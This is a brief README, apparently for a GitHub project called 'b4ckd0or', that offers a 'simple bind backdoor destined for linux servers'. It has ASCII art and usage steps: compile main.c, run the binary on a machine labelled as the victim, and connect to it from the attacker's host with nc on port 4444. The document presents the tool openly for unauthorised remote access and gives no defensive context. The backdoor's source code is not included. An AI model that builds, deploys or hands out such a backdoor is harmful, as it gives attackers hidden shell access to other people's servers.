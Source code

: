 # b4ckd0or
#           /\
#          / \\ /\
#   /\  /\/  \\V  \/\
#  / \\/ // \\\\\ \\ \/\
# // //The-Dark-Hall\/ \\
#/https://github.com/mednic\

Simple bind backdoor destined for linux servers
Use:

    root@samsepi0l:~# gcc main.c -o backdoor
    root@vitima:~# ./backdoor
    root@samsepi0l:~# nc -v 192.168.0.52 4444
    
